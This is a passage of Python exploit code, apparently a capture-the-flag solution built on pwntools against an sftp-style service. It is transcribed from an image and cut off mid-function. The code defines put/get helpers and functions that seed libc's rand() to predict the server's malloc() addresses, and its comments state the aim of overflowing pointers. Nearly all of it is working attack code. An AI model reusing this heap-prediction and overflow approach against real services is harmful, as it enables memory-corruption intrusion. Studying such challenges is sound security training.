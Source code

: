 ```python

def do_put(file, content='', length=None):
	if length is None:
		length = len(content)
	content = content.ljust(length, '\0')

	r.sendlineafter('sftp> ', 'put ' + file)
	r.sendline(str(length))
	r.send(content)


def do_get(file):
	r.sendlineafter('sftp> ', 'get ' + file)
	r.sendline()
	r.recvline()
	return r.recvuntil('sftp>', drop=True)




#####################################################################
#                                                                   #
# ~ Timing/Prediction functions                                     #
#                                                                   #
#           Functions used to find the best                         #
#           times for close malloc() results,                       #
#           Allowing us to predict the malloc() result and thus,    #
#           Overflow pointers used!                                 #
#                                                                   #
#####################################################################


def init_prediction(seed):
	"""
	Return the address of the /home/c01db33f node.
	Based on the fact that it's address is based on the first rand() result.
	
	The 5 predictions in the loop are used to synchronize with the binary's rand() results,
	since it uses 5 rands() until we "arrive" at our rand().
	"""
	libc.srand(seed)
	home = prediction()
	for _ in xrange(5):
		prediction()
	return home


def prediction():
	"""
	Predict the address returned by malloc(), assuming the rand() is synchronized with the server's.
	"""
	p = (libc.rand() & 0x1FFFFFFF) | 0x40000000
	return p


def get_min_diff_idxs(lst):
	
	min_pair = None
	min_idxs = None
	min_diff = 0xffffffffffffffffffffffff # big val
	sorted_lst = sorted(lst) # lst is a list of the results from rand(), hence, we need to sort it first! 
```